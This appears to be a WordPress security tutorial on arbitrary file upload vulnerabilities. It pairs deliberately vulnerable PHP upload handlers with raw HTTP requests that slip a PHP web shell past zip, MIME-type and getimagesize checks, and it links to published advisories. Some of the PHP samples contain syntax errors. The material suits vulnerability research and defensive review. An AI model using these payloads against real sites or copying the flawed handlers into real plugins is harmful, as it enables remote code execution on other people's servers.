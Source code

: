 ```yaml
---
title: Arbitrary File Upload
contributors:
    - rafiem
---
```

## Introduction

This article covers cases of possible Arbitrary File Upload on WordPress. This includes improper file input handling inside of the plugin/theme which can be used to arbitrarily upload files including `.php` files to further achieve Remote Code Execution (RCE).

## Files Input

The most common way to trace if a plugin/theme has a file handling from user input is via the `$_FILES` PHP variable. 

Another way that is most of the time missed by hackers is via [`WP_REST_Request::get_file_params`](https://developer.wordpress.org/reference/classes/wp_rest_request/get_file_params/) function. This function retrieves multipart file parameters from the body of a custom REST API route registered by the plugin/theme.


## Useful Functions

Several functions could be useful to identify a possible Arbitrary File Upload vulnerability:

- PHP related
    - [move_uploaded_file](https://www.php.net/manual/en/function.move-uploaded-file.php)
    - [file_put_contents](https://www.php.net/manual/en/function.file-put-contents)
    - [fwrite](https://www.php.net/manual/en/function.fwrite)
    - [fputs](https://www.php.net/manual/en/function.fputs.php)
    - [copy](https://www.php.net/manual/en/function.copy.php)
    - [fputcsv](https://www.php.net/manual/en/function.fputcsv.php)
    - [rename](https://www.php.net/manual/en/function.rename.php)
- WordPress related
    - [WP_Filesystem_Direct::put_contents](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/put_contents/)
    - [WP_Filesystem_Direct::move](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/move/)
    - [WP_Filesystem_Direct::copy](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/copy/)

## Compressed File Extraction

One of the processes to upload a file is through an extraction of the compressed file. The compressed itself can vary from zip, gz, tar, rar, xz, 7z, etc. Most of the time, the developer forgets to implement a pre-check before the extraction process and it could lead to users uploading arbitrary files if the user can control the filename and the content of the extracted file.

Here are several functions that can be used to decompress a file:

- [`ZipArchive::extractTo`](https://www.php.net/manual/en/ziparchive.extractto.php)
- [`PharData::extractTo`](https://www.php.net/manual/en/phardata.extractto.php)
- [`unzip_file`](https://developer.wordpress.org/reference/functions/unzip_file/)

```php
add_action("wp_ajax_unpack_fonts", "unpack_fonts");

function unpack_fonts(){
    $file = $_FILES["file"];
    $ext = end(explode('.',$file_name));

    if($ext !=== "zip"){
        die();
    }
    
    $file_path = WP_CONTENT_DIR + "/uploads/" + $file["name"];
    move_uploaded_file($file["tmp_name"], $file_path);

    $zip = new ZipArchive;
    $f = $zip->open($file_path);

    if($f){
        $zip->extractTo(WP_CONTENT_DIR + "/uploads/");
        $zip->close();
    }

}
``` 

To bypass the above check we need to prepare a valid zip file and add a malicious PHP file inside the zip file. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php?action=unpack_fonts HTTP/1.1
Host: localhost
Content-Length: 227
Cookie: <AUTHENTICATED_USER_COOKIE>
Connection: close

------WebKitFormBoundaryNSpLEsDZWYvEGYO1
Content-Disposition: form-data; name="file"; filename="pwn.zip"
Content-Type: application/zip

<MALICIOUS_ZIP_METADATA>
------WebKitFormBoundaryNSpLEsDZWYvEGYO1--

```

## Bypass Techniques

Some of the conditions may make the file upload process secure, however, these specific conditions can still be bypassed to achieve an Arbitrary File Upload

### MIME Type Check

Developers often only check for the file's MIME content type before performing the upload process. This check alone is not enough to prevent Arbitrary File Upload since the attacker just needs to insert or append a malicious string like PHP code into a valid acceptable file MIME type.

Several functions could be used to check for a file's MIME type. Here are several functions that can be used to check for MIME type:

- [mime_content_type](https://www.php.net/manual/en/function.mime-content-type.php)
- [exif_imagetype](https://www.php.net/manual/en/function.exif-imagetype.php)
- [finfo_file](https://www.php.net/manual/en/function.finfo-file.php)

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_upload_image_check_mime", "upload_image_check_mime");

function upload_image_check_mime(){
    $file = $_FILES["file"];
    $file_type = mime_content_type($file["tmp_name"]);
    $file_path = WP_CONTENT_DIR + "/uploads/" + $file["name"];
    
    if(in_array($file_type, get_allowed_mime_types())){
        move_uploaded_file($file["tmp_name"], $file_path);
        echo "file uploaded";
    }
    else{
        echo "file mime type not accepted";
    }

}
```

To bypass the above check we need to prepare a valid PNG file and append a malicious PHP code to the PNG file metadata. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:


```http
POST /wp-admin/admin-ajax.php?action=upload_image_check_mime HTTP/1.1
Host: localhost
Content-Length: 227
Connection: close

------WebKitFormBoundaryNSpLEsDZWYvEGYO1
Content-Disposition: form-data; name="file"; filename="pwn.php"
Content-Type: image/png

<PNG_IMAGE_METADATA>
<?php echo system($_GET["id"]); ?>
------WebKitFormBoundaryNSpLEsDZWYvEGYO1--
```

### Image Related Check

Most of the file upload process is for an image type of file. Sometimes, developers only check for conditions that are related to an image file. One of the common functions to be used for image-related checks is [`getimagesize`](https://www.php.net/manual/en/function.getimagesize.php) function.

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_upload_image_getimagesize", "upload_image_getimagesize");

function upload_image_getimagesize(){
    $file = $_FILES["file"];
    $file_path = WP_CONTENT_DIR + "/uploads/" + $file["name"];
    $size = getimagesize($file["tmp_name"]);
    $fileContent = file_get_contents($_FILES['file']);

    if($size){
        file_put_contents($file_path, $fileContent);
        echo "image uploaded";
    }
    else{
        echo "invalid image size";
    }

}
```

To bypass the above check we need to prepare a valid image file and append a malicious PHP code to the image file metadata. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php?action=upload_image_getimagesize HTTP/1.1
Host: localhost
Content-Length: 227
Connection: close

------WebKitFormBoundaryNSpLEsDZWYvEGYO1
Content-Disposition: form-data; name="file"; filename="pwn.php"
Content-Type: image/jpeg

<JPEG_IMAGE_METADATA>
<?php echo system($_GET["id"]); ?>
------WebKitFormBoundaryNSpLEsDZWYvEGYO1--
```

## Article References


Below are some of the findings related to Arbitrary File Upload:

- [AI Engine Plugin Affected by Critical Vulnerability](https://patchstack.com/articles/ai-engine-plugin-affected-by-critical-vulnerability/)
- [Multiple Vulnerabilities Patched in Themify Ultra Theme](https://patchstack.com/articles/multiple-vulnerabilities-patched-in-themify-ultra-theme/)
- [Critical Vulnerability in Elementor Affecting 5+ Million Websites](https://patchstack.com/articles/critical-vulnerability-in-elementor-affecting-5-million-websites/)
- [Pre-Auth Arbitrary File Upload in User Submitted Posts Plugin](https://patchstack.com/articles/pre-auth-arbitrary-file-upload-in-user-submitted-posts-plugin/)
- [Critical Arbitrary File Upload Patched in Forminator Plugin](https://patchstack.com/articles/critical-arbitrary-file-upload-patched-in-forminator-plugin/)
- [Multiple High and Critical Vulnerabilities in Avada Theme and Plugin](https://patchstack.com/articles/multiple-high-and-critical-vulnerabilities-in-avada-theme-and-plugin/)
- [Critical Vulnerabilities Patched in Jupiter X Core Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-jupiter-x-core-plugin/#unauthenticated-arbitrary-file-upload)
